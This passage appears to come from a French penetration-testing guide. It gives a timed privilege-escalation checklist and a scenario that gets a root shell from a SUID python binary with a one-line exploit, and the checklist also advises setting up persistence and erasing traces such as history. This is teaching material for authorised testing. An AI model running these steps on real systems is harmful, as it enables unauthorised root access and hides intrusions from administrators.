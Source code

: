 ### 5.2 Checklist "Privesc Express"

#### Phase 1: Énumération initiale (5-10 minutes)
- [ ] Identifier le système d'exploitation et sa version exacte
- [ ] Vérifier les privilèges actuels et les groupes
- [ ] Examiner les configurations sudo (Linux) ou les privilèges utilisateur (Windows)
- [ ] Rechercher les fichiers avec permissions spéciales (SUID/SGID pour Linux)
- [ ] Vérifier les processus en cours d'exécution et leurs propriétaires

#### Phase 2: Exploitation ciblée (10-15 minutes)
- [ ] Tester les vecteurs à faible risque identifiés (sudo, SUID, etc.)
- [ ] Exécuter un outil d'énumération automatisé (LinPEAS/WinPEAS)
- [ ] Analyser les résultats et identifier les 2-3 vecteurs les plus prometteurs
- [ ] Tenter l'exploitation du vecteur le plus prometteur

#### Phase 3: Exploitation avancée (15-30 minutes)
- [ ] Exécuter un suggester d'exploits basé sur la version du système
- [ ] Tester les exploits suggérés par ordre de fiabilité
- [ ] En cas d'échec, revenir aux vecteurs alternatifs identifiés
- [ ] Tenter des techniques de contournement si des protections sont détectées

#### Phase 4: Persistance minimale (5 minutes)
- [ ] Créer un accès persistant (utilisateur privilégié, tâche planifiée)
- [ ] Nettoyer les traces évidentes (fichiers temporaires, historique)
- [ ] Documenter les vecteurs exploités pour le rapport

### 5.3 Scénario express : De l'accès initial aux privilèges élevés

Ce scénario combine une escalade de privilèges Linux (via SUID) suivie d'une escalade Windows (via service vulnérable) dans un environnement hybride.

#### Partie 1: Escalade Linux via binaire SUID

1. Vous avez obtenu un accès SSH à un serveur Linux en tant qu'utilisateur standard.

2. Énumération rapide des binaires SUID :
   ```bash
   find / -perm -u=s -type f 2>/dev/null
   ```

3. Vous découvrez que `python` a le bit SUID :
   ```bash
   ls -la /usr/bin/python
   # -rwsr-xr-x 1 root root 3665768 Aug 13 2021 /usr/bin/python
   ```

4. Exploitation du binaire SUID pour obtenir un shell root :
   ```bash
   /usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/bash")'
   ```

5. Vérification des privilèges :
   ```bash
   whoami
   # root
   ```
